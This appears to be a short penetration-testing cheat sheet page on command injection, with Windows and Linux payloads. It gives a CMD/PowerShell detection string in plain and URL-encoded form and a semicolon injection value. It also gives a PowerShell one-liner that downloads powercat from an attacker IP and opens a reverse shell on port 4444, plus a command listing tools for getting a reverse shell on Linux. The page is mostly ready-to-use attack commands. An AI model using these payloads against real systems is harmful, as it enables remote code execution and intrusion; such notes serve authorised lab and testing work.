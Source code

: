 # Command Injection



{% embed url="https://www.revshells.com/" %}

## Windows

try to inject arbitrary commands such as **ipconfig**, **ifconfig**, and **hostname**



Display CMD or Powershell depending where its executed:

{% code overflow="wrap" %}
```sh
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```
{% endcode %}

<pre data-overflow="wrap"><code><strong>(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell
</strong></code></pre>

Download [powercat ](https://github.com/besimorhino/powercat)and execute a reverse shell:

{% code overflow="wrap" %}
```shell
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
```
{% endcode %}

{% code overflow="wrap" %}
```sh
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell 
```
{% endcode %}

#### Combine commands with semicolon to get restricted ones to run:

```
git%3Bipconfig
```

## Linux

Enumerate available commands to acheive a reverse shell:

{% code overflow="wrap" %}
```sh
which nc bash python3 python perl php ruby socat awk curl wget telnet 2>/dev/null
```
{% endcode %}
